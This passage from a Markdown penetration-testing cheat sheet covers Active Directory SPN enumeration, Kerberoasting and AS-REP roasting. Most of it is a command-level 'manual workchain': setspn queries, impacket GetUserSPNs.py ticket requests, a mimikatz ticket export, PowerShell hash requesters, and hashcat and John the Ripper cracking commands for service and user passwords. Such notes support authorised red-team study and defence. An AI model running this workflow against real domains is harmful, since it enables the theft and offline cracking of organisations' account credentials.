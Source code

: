 <br>

---

### SPN / Kerberoasting

***SPN (Service Principal Name)*** - `<service class>/<host>:<port>/<service name>`. SPN is used to map AD account to a service.
<br> SPN manipulations can be done from any domain computer:

* `setspn -T domain.com -F -Q */*` - extract all accounts in use as SPN
* `setspn -L service_account` - list all service's SPN registered for account
* `setspn -s http/server.domain.com domain\service_account` - add new SPN

***Kerberoast*** - the idea of requesting TGS ticket (which is signed with service's hash) and make offline bruteforce of service's password.
<br> Kerberoasting are very effective with Kerberos delegation trick.

If pre-authentication is disabled, obtained TGT ticket for CUSTOM user can be bruteforced in offline mode.

<br>

[nidem/kerberoast (github.com)](https://github.com/nidem/kerberoast) - a series of tools for kerberoasting workflow

**Manual workchain**:

* *search for target service's account (service with enabled delegation)* or *target user's account (user with disabled Kerberos pre-authentication)*

    * use ldap queries
    * use impacket's `./GetUserSPNs.py -request DOMAIN.COM/any_user:passwd` (find delegation services)
    * [Invoke-Kerberoast.ps1 (gist)](https://gist.github.com/jaredhaight/cdebfa81e52352f5de1190a3d86cecea)

* *Get user's account password or NTLM hash*

    * export hashes or tickets from memory `mimikatz # kerberos::list /export` or PowerView, ...
    * request ticket for service and bruteforce it

        requesting TGS ticket for bruteforcing service's account password:

        * use impacket's TGS requester `./GetUserSPNs.py -request DOMAIN.COM/any_user:passwd`
            <br> or try `$ticket = Get-TGSCipher -SPN service/server.domain.com`
            <!-- <br> use powershell `Add-Type -AssemblyName System.IdentityModel`, `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServiceName/service01.domain.com"` -->
        * Kerberos 5 TGS-REP etype 23: `hashcat64.exe -m 13100 -a 0 -w 3 C:\temp\hash.txt C:\temp\dict.txt -o C:\temp\recovered.txt`
        * got service's account password

        requesting user's TGT ticket in case Kerberos pre-authentication is disabled:
        
        * use custom TGT requester `Get-ASREPHash -UserName pupkin -Domain ADTEST.LOCAL -Server WS2012R2DC.adtest.local` [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) or it can be extracted with pcredz tool from pcap dump
        * Kerberos 5 AS-REQ Pre-Auth etype 23: `hashcat64.exe -m 7500 -a 0 -w 3 C:\temp\hash.txt C:\temp\dict.txt -o C:\temp\recovered.txt`
            <br> *this hashcat cipher seems broken or designed for some other hash ($krb5pa$23$). JtR (John the Ripper) can be used instead `./john hashes.txt --wordlist=words.txt`*
        * got user's password

